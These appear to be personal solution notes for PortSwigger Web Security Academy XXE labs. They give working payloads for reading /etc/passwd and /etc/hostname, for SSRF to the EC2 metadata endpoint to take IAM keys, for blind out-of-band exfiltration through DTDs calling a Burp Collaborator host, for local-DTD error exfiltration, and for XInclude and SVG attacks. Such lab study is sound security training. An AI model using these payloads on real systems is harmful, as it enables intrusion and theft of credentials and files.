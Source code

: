 # Regular
1. This lab uses XML for the stock checking feature with no XXE protections in place. As such, the request can be modified to contain the element definition `<!DOCTYPE foo [<!ENTITIY xxe SYSTEM "file:///etc/passwd">]>` in order to create the XML entity `&xxe;` whose contents is the contents of `/etc/passwd`. By modifying the productId to have the value `&xxe;`, we can retrieve the contents via the returned error message
2. This lab has the same vulnerability as above, but this time has an internal EC2 server running at `http://169.254.169.254`. This can be exploited via XXE SSRF in order to retrieve the IAM secret access key by using the following entity definition `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>` and replacing the `productId` with `&xxe;`

# Blind XXE
1. This lab has the same vulnerability has the previous labs, but does not return the error in the response. This prevents exfiltrating the data directly, but a blind XXE vulnerability can still be discovered via SSRF to a controlled server. The following entity definition causes such a request when `productId` is modified appropriately: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://burpcollaborator.net">]>`
2. This lab is the same as the above, but it blocks normal external entities. However, it does not block XML parameter entities, and as such can be exploited by adding the following line to the XML request `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://burpcollaborator.net"> %xxe;]>`
3. This lab is the same as the previous, but with the goal of exfiltrating the contents of the `/etc/hostname` file. The lab provides a web server than can be configured to host an arbitrary file. By setting the file to have the name `exploit.dtd` and the following contents, we can set up a blind XXE data exfiltration:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
This DTD creates an entity named `file` with the contents of `/etc/hostname` and a second entity called `eval` which contains the dynamic declaration of another entity named `exfil` in order to be able to use the value of `file` within `exfil`. Using this, the following payload can be used within the stock checking feature in order to trigger the XXE exfiltration: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://exploit-ac7f1ff01fe7c21dc00e5c0901ca00bc.web-security-academy.net/exploit.dtd"> %xxe;]>`
4. This lab is the same as the above, but the goal is to exfiltrate the contents of `/etc/passwd` using parsing errors. The payload is the same, but the contents of `exploit.dtd` become the following:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///asdf/%file;'>">
%eval;
%error;
```
5. This lab doesn't allow any out of band interactions, so external DTDs cannot be loaded unless they are locally on the server. The server appears to be running GNOME, as is shown by the fact that loading a known DTD used by GNOME does not result in an error: `<!DOCTYPE foo [<!ENTITY dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %dtd;]>`. By knowing the existence of an open-source DTD on the system, we can utilize a hybrid DTD in order to redefine an existing entity in the open-source one and bypass the restriction on internal entities utilizing other internal entities. This is done by submitting the following payload within the stock checking request:
```
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///asdf/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
%dtd;]>
```
The `ISOamso` entity is one that is defined within the `docbookx.dtd` file, and is being redefined here for the purpose of bypassing the previously mentioned restrictions

# Hidden attack surface
1. This lab doesn't obviously use XML, but inserts data into XML in the backend and is vulnerable to XInclude. This can be utilized to cause an error containing the contents of `/etc/passwd` by setting the `productId` parameter in the stock checking feature to the following payload: `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
2. This lab has an image upload feature that accepts SVGs. Since SVGs use XML, a malicious one can be crafted to perform XXE and place the output within itself. As an example, `exploit.svg` is a valid SVG file that, when processed on the server side, will be the contents of the `/etc/hostname` file

